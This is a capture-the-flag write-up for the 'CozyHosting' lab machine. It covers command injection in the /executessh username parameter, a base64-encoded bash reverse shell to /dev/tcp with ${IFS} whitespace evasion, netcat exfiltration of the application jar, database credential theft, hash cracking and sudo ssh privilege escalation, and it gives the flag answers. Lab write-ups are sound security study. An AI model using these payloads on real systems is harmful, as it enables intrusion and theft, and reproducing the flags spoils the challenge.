 ## Guided:
**Q:** How many TCP ports are open on CozyHosting?<br>
**A:** 2

**Q:** The webserver on TCP port 80 issues a redirect to what domain?<br>
**A:** cozyhosting.htb

**Q:** What relative path on the webserver returns a 500 error?<br>
**A:** /error<br>
> Note: the template of the response of it revealed that the app is using spring-boot.<br>

**Q:** What is the Java web framework used in the web application?<br>
**A:** Spring boot

**Q:** What endpoint is exposed in Spring Boot and is mainly used for debugging purposes?<br>
**A:** /actuator<br>
> `find / -name spring* 2>/dev/null` <br>
> `/usr/share/seclists/Discovery/Web-Content/spring-boot.txt` <br> (specific wordlist for it)

**Q:** What is the username of the user's whose session is exposed?<br>
**A:** kanderson<br>
> The end-point that expose it:<br> `http://cozyhosting.htb/actuator/sessions`

**Q:** When a POST request is sent to /executessh,<br> which of the two parameters is vulnerable to command injection?<br>
**A:** username <br>
> By not sending anything it show /bin/bash error,<br> so if type `;` it will show it trying execute ssh command,<br>
> the white-space can be evaded by typing or `${IFS}` or `{something,like,this}|bash`
> so i encoded in base64 the /dev/tcp/<listener> and made sure there is no '+' with double spaces before encode.
> from -> `echo -n "bash  -i    >& /dev/tcp/<IP>/<PORT>     0 >&1   "|base64 -w 0`
> to -> `YmFzaCAgLWkgICAgPiYgL2Rldi90Y3AvPElQPi88UE9SVD4gICAgIDAgPiYxICAg`

**Q:** What user is the web application running as?<br>
**A:** app

**Q:** What is the full path to the Java file that runs the web application?<br>
**A:** /app/cloudhosting-0.0.1.jar<br>
> Transfered it to my comp via netcat,<br> `cat cloudhosting-0.0.1.jar > /dev/tcp/<IP>/<PORT>`
> my comp -> `netcat -nlvp <PORT> > cloudhosting-0.0.1.jar`
> extracted via 7z --> `7z x cloudhosting-0.0.1.jar`

**Q:** What is the name of the file where application-related properties are stored in a Spring Boot application?<br>
**A:** application.properties<br>
> It had postgres creds,<br> logged in and in the 'users' table there was 2 `bcrypt $2*$, Blowfish (Unix)` hashes

**Q:** What is the admin user's password for the web application?<br>
**A:** manchesterunited

**Q:** Submit the flag located in the josh user's home directory.<br>
**A:** 695a610dde545509f72db184dcd16bbf

**Q:** What is the full path of the binary that the josh user can execute on the machine as root?<br>
**A:** /usr/bin/ssh <br>
> [GTFObin](https://gtfobins.github.io/gtfobins/ssh/#sudo)

**Q:** Submit the flag located in the root user's home directory.<br>
**A:** 29c7d63e6269a919c73759dc7d093729

